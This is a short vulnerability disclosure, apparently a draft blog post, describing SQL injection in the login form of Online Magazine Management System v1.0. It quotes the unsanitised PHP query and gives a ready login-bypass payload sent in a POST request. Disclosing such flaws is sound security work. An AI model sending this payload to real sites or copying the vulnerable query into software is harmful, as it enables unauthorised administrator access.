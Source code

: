 ```yaml
---
cve: "pending..."
title: "SQL Injection in Online Magazine Management System"
date: 2022-10-10
draft: yes
tags:
- cve
- sql injection
- sqli
---
```

Login form of Online Magazine Management System v1.0 is prone to SQL injection. An attacker could exploit parameters `username` and `password` to get administrator access.

- mitre: https://cve.mitre.org/

<hr />

**Description:**  
The parameters `username` and `password` are not sanitized during the login process.  
An attacker could craft a payload to bypass the login form.
No valid login or password are needed.  
The first user in the database will be returned, so usually the `admin` user.

**Details:**  
File: `/classes/Login.php`, function: `login()`, line 21:  
```
$qry = $this->conn->query("SELECT * from users where username = '$username' and password = md5('$password')");
```

**Payload:**  
```
POST /classes/Login.php?f=login
username=aaaa' or 1=1#&password=whatever
```

**PoC:**  
![cve-2022-9999](/images/cve-2022-9999.png)
